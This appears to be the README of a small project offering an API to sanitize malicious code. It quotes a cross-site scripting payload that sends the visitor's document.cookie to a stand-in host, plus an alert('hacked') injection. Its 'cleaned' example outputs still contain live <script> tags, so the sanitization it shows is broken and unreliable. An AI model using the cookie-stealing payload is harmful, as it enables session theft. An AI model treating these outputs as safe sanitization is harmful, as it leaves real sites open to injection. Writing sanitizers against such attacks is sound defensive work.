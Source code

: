 # Malicious-Code-Sanitizer
An API/Library to Sanitize Malicious Code
Input : Malicious Code
Eg. '><script>document.location= 'http://www.example.com/index.php?param='+document.cookie</script>' 
Output : Cleaned Code
Eg. <script>document.location= 'http://www.example.com/index.php? param='+document.cookie<script>'  

API Structure : domain.com/sanitizestring/string="'><script>alert("hacked");</script>" 
JSON Response of API  : 
{ "BadString" : "'><script>alert("hacked");</script>", 
"CleanedString":"<script>alert("hacked");</script>" 
}
